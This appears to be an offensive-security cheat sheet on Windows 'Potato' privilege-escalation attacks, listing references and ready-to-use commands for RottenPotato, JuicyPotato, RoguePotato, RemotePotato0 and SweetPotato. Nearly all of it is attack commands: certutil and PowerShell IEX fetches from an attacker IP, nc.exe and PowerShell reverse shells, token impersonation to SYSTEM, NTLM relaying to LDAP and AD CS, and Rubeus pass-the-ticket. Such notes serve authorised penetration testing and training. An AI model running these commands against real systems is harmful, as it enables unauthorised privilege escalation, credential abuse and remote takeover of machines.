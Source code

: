# Potatoes

* [https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)
* [https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato)




## RottenPotato

* [https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)
* [https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/)
* [https://github.com/foxglovesec/RottenPotato](https://github.com/foxglovesec/RottenPotato)

```
$ curl -L https://github.com/foxglovesec/RottenPotato/raw/master/rottenpotato.exe > r.exe
meterpreter > upload r.exe
meterpreter > load incognito
meterpreter > execute -cH -f r.exe
meterpreter > list_tokens -u
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
```




## LonelyPotato

* [https://decoder.cloud/2017/12/23/the-lonely-potato/](https://decoder.cloud/2017/12/23/the-lonely-potato/)




## JuicyPotato

* [https://github.com/ohpe/juicy-potato/releases](https://github.com/ohpe/juicy-potato/releases)
* [https://github.com/ivanitlearning/Juicy-Potato-x86/releases](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)
* [https://ohpe.it/juicy-potato/CLSID](https://ohpe.it/juicy-potato/CLSID)

```
$ curl -L https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe > j.exe
...Using pwsh reverse shell...
$ curl -L https://github.com/samratashok/nishang/raw/master/Shells/Invoke-PowerShellTcpOneLine.ps1 > rev.ps1
Cmd > certutil -urlcache -split -f http://10.10.13.37/j.exe C:\Windows\System32\spool\drivers\color\j.exe
Cmd > echo cmd /c powershell -exec bypass -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/rev.ps1')" > rev.bat
Cmd > .\j.exe -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820} -l 1337 -p C:\Windows\System32\spool\drivers\color\rev.bat
...Using nc.exe...
Cmd > .\j.exe -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820} -l 1337 -p C:\Windows\System32\spool\drivers\color\nc.exe "10.10.13.37 1337 -e cmd"
```




## RoguePotato

* [https://github.com/antonioCoco/RoguePotato/releases](https://github.com/antonioCoco/RoguePotato/releases)

Redirect traffic that comes to 135 port on Attacker (`10.10.13.37`) with `socat` back to the Victim (`192.168.1.11`) on port 9999 (RogueOxidResolver is running locally on port 9999 on Victim):

```
$ socat tcp-listen:135,reuseaddr,fork tcp:192.168.1.11:9999
```

Trigger the potato to run a binary with high privileges (don't forget to start a listener if sending a reverse shell):

```
Cmd > .\RoguePotato.exe -r 10.10.13.37 -e "C:\windows\Temp\nc.exe 10.10.13.37 443 -e cmd" -l 9999
```




## RemotePotato0

* [https://github.com/antonioCoco/RemotePotato0/releases](https://github.com/antonioCoco/RemotePotato0/releases)

```
$ sudo socat TCP-LISTEN:135,fork,reuseaddr TCP:192.168.1.11:9998
$ sudo ntlmrelayx.py -t ldap://192.168.1.11 --no-wcf-server --escalate-user snovvcrash
Cmd > query user
Cmd > .\RemotePotato0.exe -r 10.10.13.37 -p 9998 -s 5
```

Combining with ESC8:

```
$ sudo ntlmrelayx.py -t http://CA01.megacorp.local/certsrv/certfnsh.asp -smb2support --no-wcf-server --adcs --template User
Cmd > .\RemotePotato0.exe -m 0 -r 10.10.13.37 -x 10.10.13.37 -p 9998 -s 5 -c "{f8842f8e-dafe-4b37-9d38-4e0714a61149}"
PS > .\Rubeus.exe asktgt /user:snovvcrash /domain:megacorp.local /dc:DC1.megacorp.local /certificate:<BASE64_PFX_CERT> /ptt
```




## GenericPotato

* [https://micahvandeusen.com/the-power-of-seimpersonation/](https://micahvandeusen.com/the-power-of-seimpersonation/)
* [https://github.com/micahvandeusen/GenericPotato](https://github.com/micahvandeusen/GenericPotato)




## Tools



### SweetPotato

- [https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato)

```
Cmd > .\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc <BASE64_CMD>"
```
